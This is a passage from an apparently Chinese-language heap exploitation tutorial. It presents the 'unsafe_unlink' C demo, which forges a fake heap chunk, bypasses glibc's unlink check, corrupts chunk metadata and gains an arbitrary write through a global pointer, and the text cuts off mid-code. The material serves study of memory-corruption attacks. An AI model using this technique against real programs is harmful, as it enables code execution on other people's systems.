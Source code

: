 ​    可以看到堆块的内容被覆盖成DDDDDDDD了，这是因为p4和p5被分配在了同一个地方，修改p5处的内容其实就是修改p4处的内容。

## unsafe_unlink

       ```c
       #include <stdio.h>
       #include <stdlib.h>
       #include <string.h>
       #include <stdint.h>
       
       uint64_t *chunk0_ptr;
       
       int main()
       {
           fprintf(stderr, "当您在已知位置有指向某个区域的指针时，可以调用 unlink\n");
           fprintf(stderr, "最常见的情况是易受攻击的缓冲区，可能会溢出并具有全局指针\n");
       
           int malloc_size = 0x80; //要足够大来避免进入 fastbin
           int header_size = 2;
       
           fprintf(stderr, "本练习的重点是使用 free 破坏全局 chunk0_ptr 来实现任意内存写入\n\n");
       
           chunk0_ptr = (uint64_t*) malloc(malloc_size); //chunk0
           uint64_t *chunk1_ptr  = (uint64_t*) malloc(malloc_size); //chunk1
           fprintf(stderr, "全局变量 chunk0_ptr 在 %p, 指向 %p\n", &chunk0_ptr, chunk0_ptr);
           fprintf(stderr, "我们想要破坏的 chunk 在 %p\n", chunk1_ptr);
       
           fprintf(stderr, "在 chunk0 那里伪造一个 chunk\n");
           fprintf(stderr, "我们设置 fake chunk 的 'next_free_chunk' (也就是 fd) 指向 &chunk0_ptr 使得 P->fd->bk = P.\n");
           chunk0_ptr[2] = (uint64_t) &chunk0_ptr-(sizeof(uint64_t)*3);
           fprintf(stderr, "我们设置 fake chunk 的 'previous_free_chunk' (也就是 bk) 指向 &chunk0_ptr 使得 P->bk->fd = P.\n");
           fprintf(stderr, "通过上面的设置可以绕过检查: (P->fd->bk != P || P->bk->fd != P) == False\n");
           chunk0_ptr[3] = (uint64_t) &chunk0_ptr-(sizeof(uint64_t)*2);
           fprintf(stderr, "Fake chunk 的 fd: %p\n",(void*) chunk0_ptr[2]);
           fprintf(stderr, "Fake chunk 的 bk: %p\n\n",(void*) chunk0_ptr[3]);
       
           fprintf(stderr, "现在假设 chunk0 中存在一个溢出漏洞，可以更改 chunk1 的数据\n");
           uint64_t *chunk1_hdr = chunk1_ptr - header_size;
           fprintf(stderr, "通过修改 chunk1 中 prev_size 的大小使得 chunk1 在 free 的时候误以为 前面的 free chunk 是从我们伪造的 free chunk 开始的\n");
           chunk1_hdr[0] = malloc_size;
           fprintf(stderr, "如果正常的 free chunk0 的话 chunk1 的 prev_size 应该是 0x90 但现在被改成了 %p\n",(void*)chunk1_hdr[0]);
           fprintf(stderr, "接下来通过把 chunk1 的 prev_inuse 改成 0 来把伪造的堆块标记为空闲的堆块\n\n");
           chunk1_hdr[1] &= ~1;
       
           fprintf(stderr, "现在释放掉 chunk1，会触发 unlink，合并两个 free chunk\n");
           free(chunk1_ptr);
       
           fprintf(stderr, "此时，我们可以用 chunk0_ptr 覆盖自身以指向任意位置\n");
           char victim_string[8];
           strcpy(victim_string,"Hello!~");
           chunk0_ptr[3] = (uint64_t) victim_string;
       